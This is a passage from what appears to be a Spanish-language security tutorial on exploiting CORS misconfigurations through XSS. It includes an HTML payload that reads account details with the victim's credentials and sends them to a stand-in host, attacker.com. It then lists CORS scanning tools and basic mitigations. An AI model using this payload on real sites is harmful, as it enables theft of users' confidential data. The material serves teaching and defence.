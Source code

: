 ```http
HTTP/1.1 200 OK  
...  
Access-Control-Allow-Origin: paginaA.com
```

Si la **Pagina A** es vulnerable a **XSS**, entonces un atacante podría explotar el **XSS** para inyectar código JavaScript que usa CORS para recuperar información confidencial del sitio que confía en la aplicación vulnerable. (**Pagina B**)

creacion de una pagina HTML maliciosa:

```html
<html>
	<body>
		<script> 
			document.location="http://paginaA.com/productos?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://paginaB.com/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://attacker.com/log?key='%2bthis.responseText; };%3c/script>&storeId=1" 
		</script>
	</body>
</html>
```

## Herramientas para verificacion del CORS

Encontrar misconfiguration:

[Corsy](https://github.com/s0md3v/Corsy)
[CORScanner](https://github.com/chenjj/CORScanner)

## MITIGACIONES
Las vulnerabilidades de CORS surgen principalmente como errores de configuración. La prevención es, por tanto, un problema de configuración. Las siguientes secciones describen algunas defensas efectivas contra los ataques CORS.

- Permitir solo sitios de confianza
- Evitar el valor NULL en le ACAO
- Evitar comodines en redes internas.
